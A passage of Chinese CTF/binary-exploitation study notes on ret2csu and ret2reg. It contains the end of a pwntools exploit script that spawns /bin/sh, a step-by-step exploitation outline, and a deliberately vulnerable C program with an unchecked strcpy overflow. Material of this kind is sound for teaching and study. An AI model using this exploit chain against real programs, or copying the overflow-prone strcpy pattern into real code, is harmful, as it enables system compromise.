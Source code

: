 ```bash
p.recvuntil('Hello, World\n')
csu(0,1,read_got_addr,16,bss_addr,0,main_got_addr)             
p.send(p64(system_addr)+'/bin/sh\x00')

#第三次发送 payload，执行 system 函数
p.recvuntil('Hello, World\n')
csu(0,1,bss_addr,0,0,bss_addr+8,main_got_addr)             

p.interactive()
```

### 思路

-   利用栈溢出执行 libc\_csu\_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
-   根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
-   再次利用栈溢出执行 libc\_csu\_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’地址，并使得程序重新执行 main 函数。
-   再次利用栈溢出执行 libc\_csu\_gadgets 执行 execve('/bin/sh') 获取 shell。

### 疑问

-   上述思路中，能不能省去第三步，直接通过版本找到字符串/bin/sh 的地址，然后利用栈溢出传入地址直接执行？
    
    答：不可以，因为这条指令的原因 mov edi, r15d，它只能将 r15 低 32 位赋给 edi，而 bss 段地址本身比较低，高 32 位为 0 不影响赋值后 rdi 的结果
    
-   如果 system 函数不行可以尝试使用 execve
    

## ret2reg

### 原理（思路）

1.  查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2.  然后反编译二进制，查找 call reg 或者 jmp reg 指令，将 EIP 设置为该指令地址
3.  reg 所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)

### 利用

源程序：

```bash
#include <stdio.h>
#include <string.h>
void evilfunction(char *input) {
        char buffer[512];
        strcpy(buffer, input);
}
int main(int argc, char **argv) {
        evilfunction(argv[1]);
        return 0;
}
```

编译：

